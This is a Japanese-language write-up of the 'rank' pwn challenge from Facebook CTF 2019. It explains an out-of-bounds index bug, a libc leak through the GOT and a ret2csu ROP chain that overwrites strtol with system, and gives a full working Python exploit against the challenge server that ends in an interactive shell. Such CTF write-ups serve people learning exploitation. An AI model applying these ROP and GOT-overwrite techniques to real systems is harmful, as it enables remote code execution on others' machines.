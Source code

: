 # [pwn 494pts] rank - Facebook CTF 2019
64ビットです。
```
$ checksec -f r4nk
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      Yes	1		2	r4nk
```

bssに映画(?)のタイトルへのポインタがたくさんあり、ローカル変数に各タイトルへのポインタ一覧と対応するインデックスがあります。Rank機能によりこれを変更できるのですが、インデックスに制限が無いのでちょうどGOTを指すようなインデックスを指定すればローカル変数にGOTのアドレスが入ります。その後Showすることで簡単にlibcをリークできます。
また、ローカル変数を自由な範囲で書き換えられるので、リターンアドレスも書き換えられます。しかし、与えた整数は4バイトint型にに切り捨てられるので、0x00000000XXXXXXXXという値しか書き込めません。一見無理そうですが、PIEが無効なのでret2csuが使えます。
ret2csuでreadを呼び出してstrtolのGOTをsystemに書き換え、選択画面で`/bin/sh`を入力すればシェルが取れます。

```python
from ptrlib import *

def show():
    sock.recvuntil("> ")
    sock.sendline("1")
    ret = []
    for i in range(12):
        data = sock.recvline().rstrip().split(b". ")
        ret.append(data[1])
    return ret

def evil_show(fmt):
    sock.recvuntil("> ")
    sock.sendline(fmt)

def rank(i, pos):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("t1tl3> ")
    sock.sendline(str(i))
    sock.recvuntil("r4nk> ")
    sock.sendline(str(pos))

libc = ELF("./libc-2.27.so")
elf = ELF("./r4nk")
#sock = Process("./r4nk")
sock = Socket("challenges.fbctf.com", 1339)
addr_start = 0x400018 # address that points <start>
addr_list = 0x602080
addr_buf = 0x602100
plt_read = 0x4005f0
rop_pop_rdi = 0x00400b43
rop_pop_rsi_r15 = 0x00400b41
rop_prepare_reg = 0x00400b3a
rop_csu_init = 0x400b20

# libc leak
payload = b"A" * 8 + p64(elf.got("write"))
evil_show(payload)
rank(0, (addr_buf - addr_list) // 8 + 1)
addr_write = u64(show()[0])
libc_base = addr_write - libc.symbol("write")
addr_one_gadget = libc_base + 0x10a38c
dump("libc base = " + hex(libc_base))

# craft ROP chain
payload = [
    rop_prepare_reg,
    0,                 # rbx
    1,                 # rbp == rbx + 1
    elf.got("read"),   # r12 = &<func>
    0,                 # r13 = arg1
    elf.got("strtol"), # r14 = arg2
    0x8,               # r15 = arg3
    rop_csu_init,
    0xdeadbeef,
    0,          # rbx
    1,          # rbp == rbx + 1
    addr_start, # r12 = &<func>
    0,          # r13 = arg1
    0,          # r14 = arg2
    0,          # r15 = arg3
    rop_csu_init
]
for i, addr in enumerate(payload):
    assert 0 <= addr <= 0xffffffff
    rank(19 + i, addr)

# ROP it
sock.recvuntil("> ")
sock.sendline("3")

sock.send(p64(libc_base + libc.symbol("system")))

# get the shell!
sock.recvuntil("> ")
sock.sendline("/bin/sh\x00")

sock.interactive()
```

# 感想
自然な形でret2csuを使わせる問題で、よくできてるなぁと思いました。

